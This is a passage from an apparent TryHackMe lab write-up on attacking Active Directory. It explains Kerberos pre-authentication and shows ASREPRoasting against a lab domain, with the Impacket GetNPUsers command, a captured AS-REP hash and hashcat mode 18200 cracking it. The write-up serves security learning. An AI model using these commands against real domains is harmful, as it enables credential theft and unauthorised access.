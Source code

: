 This Kerbrute bruteforce is very usefull because he discovered many users on the domain. Moreover, we can see that a user looks weak: `svc-admin has no pre auth required`. What does it mean ?

Pre-authentication is a security mechanism used by the Kerberos protocol. It works by sending a packet containing a request for an encrypted TGT ticket with the user's account secret key and a timestamp. If the domain server accepts the request, it returns a packet containing an encrypted TGT ticket which is then used for user authentication.

In this case, "svc-admin" user is able to log in without going through this pre-authentication step.

<span id='abusing'></span>

## **Abusing kerberos with ASREPRoasting**

Once the enumeration of user accounts is completed, we can try to exploit a feature in Kerberos using an attack technique known as ASREPRoasting. ASREPRoasting happens when a user account has the privilege "Does not require Pre-Authentication" enabled as explained in the previous step.

To exploit this vulnerability, we will use `GetNPUsers` script from Impacket (<a href="https://github.com/fortra/impacket">https://github.com/fortra/impacket</a>).

### **GetNPUsers**

```bash
┌──(teiiko㉿kali)-[~/Bureau/tools/kerbrute/dist]
└─$ GetNPUsers.py -dc-ip 10.10.32.16 spookysec.local/svc-admin -no-pass                                                            
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:xxxxxxxxxxxfb$bda69125e4fca78ae99b770ef2d0b615f34326d77d91f44526d9cb9741683b20a40ae0a7f5dc3e62a645f44780444e547b3f633058bf76395ea23a1f2b60e4f4cd5af7cdec030721e0e79e5ad9a1fdc6979cb0050f891437315861cd97ae81ce51d56a9927227f5866ad7b781f67088c673a9728ed6d6083a712d7fcc53a27e7f754acd42b15f8ae3ee54c2be197734d8184f6394ea247997329467ef27cbae4dd52b65c85f1b367028a1802633cbab7b84bfc3d55a612ff16b3e04ba64549b5965492bb5e510ee2674d1dc41ca61ec6d6038a4d2580d4754d9c4b07483b977acbbad9cd53xxxxxxxxxxx
```

Now we have our hash for svc-admin user, we can try to crack him using hashcat or john (hashcat in my case).

### **Hashcat**

I used hashcat examples ( <a href="https://hashcat.net/wiki/doku.php?id=example_hashes">Hashcat exemples</a> ) to get the right mode.

![mode-hashcat](/images/hashcat.png)
```bash
┌──(root㉿kali)-[/home/teiiko/Bureau/TryHackMe/Attacking_AD]
└─# hashcat -a 0 -m 18200 hash5 /home/teiiko/Bureau/list/passwordlist.txt --force --show
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:xxxxxxxxxxxxxxfea97$cdcaaccfacdd4b5bddb1283efe364a47cd521fd75f3dddbf41eeb528f21e2764abe1e163a541c4de5178c450e90cc8df5c75f1c5214424502875bf6ccf82ee6b5a55cc315e1aa1e8e9ac2e4f1b0ef48149a2e6d3a6859e6123f75cd469c518eae928380dc204464abde06a58876ea4841a858299d2c8a8c19c6110978927264453d145205af154a21b7cf85ac3cb4510939213e79dd4aadab9abf3883384d8ea3e411653fac1bd9ecc73f03d62b7004af8b159f06267064923d2720e540e7af1a1f9a2a3cf5424a533d7c97ad6f374d5d8ecc01c6a46b99dd61d08a359c177de8bc570519ba3da5ea0a00b0d894b5a4f9400:[REDACTED]
```
